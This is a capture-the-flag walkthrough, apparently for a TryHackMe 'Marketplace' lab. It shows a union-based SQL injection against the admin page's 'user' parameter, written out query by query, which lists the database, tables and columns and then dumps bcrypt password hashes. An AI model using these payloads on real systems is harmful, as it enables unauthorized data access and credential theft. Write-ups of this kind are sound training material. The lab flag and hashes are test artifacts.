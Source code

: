 First flag is Right on administration panel

`THM{what_are_you_buying}`

You can also see there are 2 admins, `jake` and `michael`

I clicked on michael and noticed the url was like

`http://10.10.228.67/admin?user=2`

And I made it go like

`http://10.10.228.67/admin?user=2'`

Then It start acting 

```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

And I was like "chill bro its a simple colon" And went 

`http://10.10.228.67/admin?user=0 union select 1,2,3,4`

It then calmed down and gave me `user 1` So I said

`http://10.10.228.67/admin?user=0 union select version(),2,3,4`


It replied `User 8.0.21`...

At this point you can get anything from that UNION-Based SQLi

database

`http://10.10.228.67/admin?user=0 union select database(),2,3,4`

tables

`0 union select group_concat(table_name),database(),3,4 from information_schema.tables where table_schema='marketplace'`

columns

`10.10.228.67/admin?user=0 union select group_concat(column_name),database(),3,4 from information_schema.columns where table_name='users'`

So for the basic informations

```
database = marketplace
version = 8.0.21
tables = users , items, messages
columns = id,isAdministrator,password,username
```
Now we all would go straiht to `password` column

```
$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,

$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,

$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,

$2b$10$daomPlspz0EKa7wbtEQfeu1DGUWIiLxejvz/i2s3dMkE4SAxoq.Da

```
(remove the concat colon separator though)
